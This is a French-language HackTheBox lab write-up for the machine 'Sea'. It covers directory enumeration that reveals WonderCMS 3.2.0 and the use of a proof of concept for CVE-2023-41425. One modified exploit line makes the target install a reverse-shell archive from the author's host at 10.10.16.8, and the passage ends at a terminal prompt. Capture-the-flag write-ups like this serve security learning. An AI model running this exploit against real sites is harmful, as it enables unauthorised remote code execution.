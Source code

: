 ```
/version              (Status: 200) [Size: 6]
/css                  (Status: 301) [Size: 239] [--> http://sea.htb/themes/bike/css/]
/summary              (Status: 200) [Size: 66]
/404                  (Status: 200) [Size: 3341]
/LICENSE              (Status: 200) [Size: 1067]
```
Ok ca parle un peu plus par ici !
La page **/version** affiche juste la version, soit 3.2.0.
La page **/summary** indique que c'est un thème animer :) -> **Animated bike theme, providing more interaction to your visitors.**
La page **/license** est la licence, mais il parle de **turboblack**, je ne sais pas ce que c'est.

Une recherche sur google avec le terme **turboblack** me trouve un github qui parle de **HamsterCMS** mais rien de bien probant. Je ne trouve pas d'exploit sur ce CMS ni beaucoup d'information d'ailleurs...

On continue, avec une autre wordlist voici le résultat:
```
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/README.md            (Status: 200) [Size: 318]
/sym/root/home/       (Status: 200) [Size: 3650]
/version              (Status: 200) [Size: 6]
```
Le README doit contenir des infos utiles !
```
# WonderCMS bike theme

## Description
Includes animations.

## Author: turboblack

## Preview
![Theme preview](/preview.jpg)

## How to use
1. Login to your WonderCMS website.
2. Click "Settings" and click "Themes".
3. Find theme in the list and click "install".
4. In the "General" tab, select theme to activate it.
```

Effectivement, on connais désormais le CMS installé : WonderCMS en version 3.2.0.
Il existe une CVE le concernant, la CVE-2023-41425.

# Exploitation
On récupère le POC via **searchsploit** puis on test.

On va devoir modifier le script car, par exemple, les machine HTB n'arrive pas a télécharger sur github. Je doit donc modifier le script pour qui télécharge l'archive contenant mon shell chez moi. 
On va donc modifier la ligne suivante :
```
var urlRev = urlWithoutLogBase+"/?installModule=https://github.com/prodigiousMind/revshell/archive/refs/heads/main.zip&directoryName=violet&type=themes&token=" + token;
```
Comme ceci:
```
var urlRev = urlWithoutLogBase+"/?installModule=http://10.10.16.8:8000/shell.zip&directoryName=violet&type=themes&token=" + token;
```
Une fois toute les modifications faites, on va pouvoir retest
```
──(kali㉿kali)-[~/Challenge/HackTheBox/Sea]
```